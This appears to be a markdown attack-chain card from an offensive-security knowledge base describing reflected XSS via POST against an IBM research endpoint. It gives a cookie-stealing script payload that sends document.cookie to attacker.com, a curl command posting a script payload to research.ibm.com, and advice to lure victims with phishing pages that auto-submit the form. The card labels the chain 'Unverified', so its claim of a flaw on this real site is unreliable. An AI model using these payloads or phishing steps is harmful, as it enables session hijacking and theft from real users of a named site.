

# Reflected XSS Exploitation via POST Request on IBM Research Endpoint

Multi-stage attack chain demonstrating a complete attack workflow.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 1 |
| Execution Time | ~1 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | Medium |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- None (uses standard HTTP client like curl or browser)

### Target Environment

- Web platform
- IBM research endpoint accessible via POST requests
- No specific ports required (standard HTTPS 443)

### Initial Access Requirements

- Network access to the IBM research endpoint
- Knowledge of the vulnerable POST parameter
- No prior credentials needed (public-facing)

## Detailed Attack Procedures

### Step 1: Exploit Reflected XSS
procedure: [[procedures/Exploit-Reflected-XSS-via-POST-Request]]

**Objective**: Send a malicious POST request to the IBM research endpoint to inject and reflect an XSS payload, executing arbitrary JavaScript in the victim's browser.

**Instructions**: Identify the vulnerable POST parameter (e.g., a search or input field). Craft a payload such as `<script>alert('XSS')</script>` or more advanced like `<script>document.location='http://attacker.com/steal?cookie='+document.cookie</script>`. Use [[commands/curl-send-xss-post]] to send the request:

```bash
curl -X POST -d "param=<script>alert('XSS')</script>" https://research.ibm.com/endpoint
```

If using a browser, entice the victim to submit the form with the payload via a phishing link or malicious site that auto-submits the POST.

**Expected Output**: The endpoint reflects the payload in the response, which executes in the browser (e.g., alert popup or data exfiltration).

**Success Indicators**:
- JavaScript alert or callback fires
- Network request to attacker's server with stolen data
- Browser console shows script execution

## Attack Chain Summary

### Key Achievements

1. Successful injection of XSS payload via POST request
2. Arbitrary JavaScript execution in victim's browser
3. Potential for session hijacking or data theft

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Exploit Public-Facing Application]]
- [[JavaScript]]

### MITRE ATT&CK Tactics

- [[Initial Access]]
- [[Execution]]

---
*Last updated: 2024-12-15T00:00:00Z*
